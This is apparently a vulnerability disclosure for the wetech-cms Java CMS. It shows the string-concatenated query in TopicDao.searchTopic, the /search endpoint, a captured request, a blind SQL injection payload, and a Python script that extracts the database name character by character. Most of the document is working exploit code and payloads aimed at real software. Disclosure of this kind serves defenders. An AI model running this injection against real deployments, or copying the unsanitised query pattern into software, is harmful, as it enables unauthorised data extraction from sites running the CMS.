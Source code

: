 ```yaml
---
typora-root-url: ./img
---
```


**BUG_Author:**

hadagaga

**Vendor:**

https://github.com/cjbi/wetech-cms

**Software:**

https://github.com/cjbi/wetech-cms

**Vulnerability File:**

##### wetech-cms-master\wetech-core\src\main\java\tech\wetech\cms\dao\TopicDao.java

```java
	@Override
	public Pager<Topic> searchTopic(String con) {
		String hql = getTopicSelect() + " from Topic t where t.status=1 and " + "(title like '%" + con
				+ "%' or content like '%" + con + "%' or summary like '%" + con + "%')";
		return this.find(hql);
	}
```

​	Locate a route retroactively

```java
	@RequestMapping(value = "/search", method = RequestMethod.POST)
	public List<Topic> search(String con) {
		SystemContext.setOrder("asc");
		SystemContext.setSort("c.orders");
		SystemContext.setOrder("desc");
		SystemContext.setSort("t.publishDate");
		Pager<Topic> topics = topicService.searchTopic(con);
		// 将关键字着色
		focus(topics, con);
		return topics.getDatas();
	}
```

​	Based on the route, we locate the front-end search function

​	![image-20241128211313097](img/image-20241128211313097.png)

​	Capture packets after searching:

```http
POST /search.do HTTP/1.1
Host: 172.21.55.165:8888
Content-Length: 7
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.21.55.165:8888
Referer: http://172.21.55.165:8888/?
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=5EA494FF429C210478C61A1E2BA26079
Connection: close

con=123
```

​	After outputting single quotation marks, an error is found, and you try to construct an SQL statement to get payload:

```SQL
1%' and content like (case when ascii(substr(database(),1,1))=1 then '' else '%' end) or content like '1
```

​	Based on the payload, we have the following python script

```python
import requests
true_of_payload = {
    "con" : "1%' and content like (case when ascii(substr(database(),1,1))=1 then '' else '%' end) or content like '1"
}
url = "http://172.21.55.165:8888/search"
def req():
    r = requests.post(url,params=true_of_payload)
    true_len = len(r.text)
    for i in range(1,11):
        for j in range(64,127):
            payload = {
                "con" : "1%' and content like (case when ascii(substr(database(),{},1))={} then '' else '%' end) or content like '1".format(i,j)
            }
            r = requests.post(url,params=payload)
            if len(r.text) != true_len:
                print(chr(j),end='')
                break

def main():
    req()

if __name__ == "__main__":
    main()

```

​	Successfully obtain the library name:

![image-20241127145422588](img/image-20241127145422588-1732721891176-6-1732797677431-3-1732799709162-1.png)
